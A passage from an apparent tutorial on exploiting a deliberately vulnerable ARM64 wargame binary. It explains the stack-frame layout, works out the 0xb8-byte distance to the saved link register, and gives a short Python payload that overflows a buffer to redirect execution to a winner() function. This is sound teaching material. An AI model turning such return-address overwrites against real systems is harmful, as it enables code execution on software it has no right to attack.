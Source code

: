 ```
stp     x29, x30, [sp, #-0xd0]!


```

These are, respectively, the Frame Pointer (FP) and Link Register (LR). Additionally, this instruction subtracts `0xd0` from the Stack Pointer (SP) **before** storing `x29` and `x30`, it does not use `0xd0` as an offset, but actually modifies the register prior to storing FP & LR. This might not be obvious to those familiar with x86 systems.

Several instructions later, we see the contract structure being passed into `memset()`:

```
add     x0, sp, #0x18
mov     x2, #0xb0
mov     w1, #0
bl      memset


```

From this, we know that the size of the contract structure is `0xb0` bytes, and begins `0x18` bytes above the current SP. An important thing to note here is that we cannot smash _this_ function’s saved LR: The contract structure begins at a higher address (`SP+0x18`), and “grows” towards higher addresses, meaning that we will never hit the saved LR.

[![](https://blog.ret2.io/assets/img/pacpost_stack_diagram_1.png)](https://blog.ret2.io/assets/img/pacpost_stack_diagram_1.png)

A diagram of the stack-layout of contract_menu

However, we can corrupt a saved LR further down the stack. If we look at the disassembly of `main()`, we can see it also saves LR and FP in a similar manner to `contract_menu()`:

```
paciasp 
stp     x29, x30, [sp, #-0x10]!
mov     x29, sp
bl      init_wargame
bl      contract_menu


```

SP was decreased by `0xd0` at the start of `contract_menu()`, and we can start writing to the stack (via contract), at `SP+0x18`, so the distance to the saved LR/FP pair will be `0xd0` - `0x18` = `0xb8` bytes.

By running the simple python ‘exploit’ provided below, we will smash through the contract structure and overwrite the saved LR. Typing ‘4’ (the Quit command) to break from the menu loop will cause the program to return from `main()` and consume the overwritten return-address which now points at the `winner()` function.

```
import interact
import struct

# Pack integer 'n' into a 8-Byte representation
def p64(n):
    return struct.pack('Q', n)

# the address of the 'winner()' function
winner_address = p64(0x400b04)

# a simple buffer overflow to smash the saved return-address
payload  = "A" * 0xb8
payload += "B" * 8         # FP
payload += winner_address  # LR

```